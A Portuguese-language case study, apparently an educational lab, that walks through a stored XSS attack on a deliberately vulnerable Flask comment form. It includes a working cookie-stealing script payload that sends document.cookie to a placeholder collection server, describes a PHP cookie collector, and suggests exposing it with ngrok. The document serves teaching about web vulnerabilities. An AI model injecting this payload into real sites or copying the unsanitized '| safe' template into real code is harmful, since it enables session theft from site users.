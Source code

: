 # Estudo de Caso: Vulnerabilidade em Formulário de Comentários (Sugestão: Utilizar o SO Linux ou equivalentes)

# Cenário:

Imagine uma aplicação de blog simples que permite aos usuários postar comentários em artigos. O formulário de comentários tem um campo de texto para o nome do usuário e outro para o conteúdo do comentário. O código do servidor recebe esses dados e os insere diretamente em uma página HTML que é exibida para outros usuários, sem qualquer tipo de validação ou sanitização.

Para executar o estudo de caso de vulnerabilidade em formulários de comentários e demonstrar o ataque de XSS persistente, você precisará simular o ambiente de uma aplicação web vulnerável.

A vulnerabilidade ocorre quando a aplicação não sanitiza a entrada do usuário antes de armazená-la no banco de dados e exibi-la para outros usuários.

# Passo 1: Simulação da Aplicação Vulnerável

Primeiro, você precisa de um código de servidor simples que tenha a vulnerabilidade. Usarei um exemplo em Python com o framework Flask, que é fácil de configurar.

Código Python (app.py):

Observação sobre a vulnerabilidade: A linha {{ comment | safe }} no template é intencionalmente vulnerável. O filtro | safe no Jinja2 (motor de template do Flask) desabilita a sanitização automática, fazendo com que o HTML injetado seja renderizado.

Executar: Precisa do python instalado 

(base) alex@iMac-de-Alex example_01 % python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 647-019-061



# Passo 2: Configurando o Servidor de Coleta de Cookies

Para demonstrar o roubo de cookies, você precisa de um servidor que "colete" as requisições maliciosas. Rodar o arquivo .php em um servidor Web (Ex.: Apache)

Código PHP (coletar_cookie.php):

Este script simplesmente pega o valor do cookie da URL e o salva em um arquivo de texto no servidor.

# Passo 3: Execução do Ataque

Com os dois servidores prontos, siga os passos abaixo para realizar o ataque:

Inicie o servidor da aplicação vulnerável: Execute python app.py no seu terminal. Ele estará rodando em http://127.0.0.1:5000.

Inicie o servidor de coleta de cookies: Coloque o arquivo coletar_cookie.php em um servidor web (como Apache ou Nginx) ou use uma ferramenta de tunelamento como o ngrok para expor seu servidor local à internet. Anote a URL.

Acesse a página vulnerável em http://127.0.0.1:5000.

Crie a carga maliciosa: No campo de comentário, insira o seguinte script. Substitua http://seu-servidor-de-coleta.com pela URL do seu servidor Flask.

HTML
<script>
    document.write('<img src="http://seu-servidor-de-coleta.com/coletar_cookie.php?cookie=' + document.cookie + '">');
</script>

Envie o comentário: Clique em "Enviar". A página irá recarregar e exibir a mensagem de sucesso.

Verifique o ataque: Volte para a página inicial da aplicação (http://127.0.0.1:5000). O navegador, ao renderizar o comentário, executará o script. Ele tentará carregar a imagem, o que fará uma requisição GET para o seu servidor de coleta, enviando o cookie.

Confirme o sucesso: Verifique o seu servidor de coleta. O arquivo cookies_roubados.txt deve ter sido criado e conter o cookie roubado.